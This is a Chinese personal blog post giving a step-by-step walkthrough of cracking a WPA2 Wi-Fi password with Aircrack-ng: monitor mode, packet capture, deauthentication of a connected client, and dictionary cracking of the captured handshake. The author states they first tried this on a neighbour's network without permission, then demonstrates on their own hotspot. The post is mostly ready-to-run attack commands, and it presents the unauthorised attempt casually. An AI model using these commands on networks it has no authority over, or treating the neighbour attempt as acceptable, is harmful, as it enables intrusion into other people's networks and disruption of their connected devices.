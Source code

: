 ```yaml
---
title: 使用Aircrack-ng破解WPA2加密的wifi密码
date: 2020-02-11 18:59:04
tags: linux
---
```


## 写在前面
现在是 2020 年 2 月 11 日，正是武汉病毒的爆发期间，全面禁止出门
今天才 11 号，手机流量早已经限速，完全没法使用了，我可以不出门，但不能没有网
所以，打算破解看看邻居家的 wifi 密码，可惜邻居家的 wifi 密码太复杂，使用我的密码字典没有跑出来
但是方法是没问题的，下面就以我自己手机开出的热点为目标 wifi 来攻击一下，记录一下这个过程

## 开工
打开一篇以前收藏的[文章](https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html)

### 更新 Aircrack-ng
```
airodump-ng-oui-update
```

### 打开无线网卡
```
sudo ifconfig wlp3s0 up
```

### 激活无线网卡为监听模式
```
sudo airmon-ng start wlp3s0
```

### 探测无线网络，抓取无线数据包
```
sudo airodump-ng wlp3s0mon
```

探测结果大概是这样的
![](https://static.ifthat.com/public/data/51eaa6989f2bacea-2020-02-11_18-02.png)
找到目标 wifi 的chanal，这里我破解的是 honor 7X， ch 为 11  
![](https://static.ifthat.com/public/data/be6de0a4075ca775-2020-02-11_18-11.png)
```
sudo airodump-ng -c 11 -w longas wlp3s0mon
```
-c channel 
-w 保存文文件的前缀

### 找到 两台正在使用的 MAC

![](https://static.ifthat.com/public/data/6ea0d974ded680e1-2020-02-11_18-14.png)
执行上面命令的终端不要关，下面另开一个终端

### 攻击
```
sudo aireplay-ng -0 5 -a F0:0F:EC:6E:A8:AB -c 4C:6B:E8:B2:50:4C wlp3s0mon
```
-a 目标mac 
-c 客户端mac

刚才那个 终端出现这样的提示表示攻击成功,可以关闭这个终端了
![](https://static.ifthat.com/public/data/3534a3929bff257d-2020-02-11_18-21.png)
当前文件夹会出现这个文件
![](https://static.ifthat.com/public/data/d2abef363c1a50ab-2020-02-11_18-21_1.png)

### 使用字典破解
```
sudo aircrack-ng -w /mnt/windows-source/Data/破解字典/弱口令集/wordlist.txt longas-01.cap
```
-w 字典文件
![](https://static.ifthat.com/public/data/1784f82430b9c5eb-2020-02-11_18-23.png)
这里选择4

### 破解成功

![](https://static.ifthat.com/public/data/c9f6b9d8a0df4f98-2020-02-11_18-24_1.png)

### 最后停止无线网卡监听
```
sudo airmon-ng stop wlp3s0mon
```

## 参考资源
https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html
